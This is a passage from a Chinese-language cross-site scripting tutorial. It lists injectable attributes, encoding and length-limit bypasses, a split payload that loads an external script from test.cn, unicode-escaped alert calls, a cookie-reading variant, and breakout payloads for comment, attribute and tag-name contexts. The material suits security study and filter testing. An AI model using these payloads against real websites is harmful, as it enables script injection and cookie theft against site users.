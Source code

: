 ##### 资源加载类属性（支持 base64 或外链）
> `src=` <br>
> `data=` <br>
> `poster=` <br>
> `background=` <br>
> `code=` <br>

##### 脚本执行类属性
> `on*=` 所有以 `on` 开头的事件处理属性

#### 3.5 字符集与长度限制绕过

##### 使用非标准编码
> UTF-7<br>
> US-ASCII<br>
> UTF-16

##### 拆分跨站脚本（用于绕过长度限制）
```javascript
<script>
  z='<script src=';
  z+='test.c';
  z+='n/1.js><\/script>';
  document.write(z);
</script>
```
执行结果为：
```html
<script src=test.cn/1.js></script>
```

##### JavaScript 层面的绕过技巧
```javascript
<!-> Unicode 编码关键字 -->
<script>a\u006cert(1)</script>
<script>eval('a\u006cert(1)')</script>

<!-> 替代点操作符 -->
<script>alert(document['cookie'])</script>
<script>with(document)alert(cookie)</script>
```

### 4. XSS 可插入位置

```html
<!-> 用户输入作为 script 标签内容 -->
<script>用户输入</script>

<!-> 用户输入作为 HTML 注释 -->
<!-> 用户输入 -->
<!-> --><script>alert('hack')</script><!-> -->

<!-> 用户输入作为标签属性名 -->
<div 用户输入="xx"></div>
<div ></div><script>alert('hack')</script><div a="xx"></div>

<!-> 用户输入作为标签属性值 -->
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>

<!-> 用户输入作为标签名 -->
<用户输入 id="xx" />
<><script>alert('hack')</script><b id="xx" />

<!-> 用户输入作为 CSS 内容 -->
```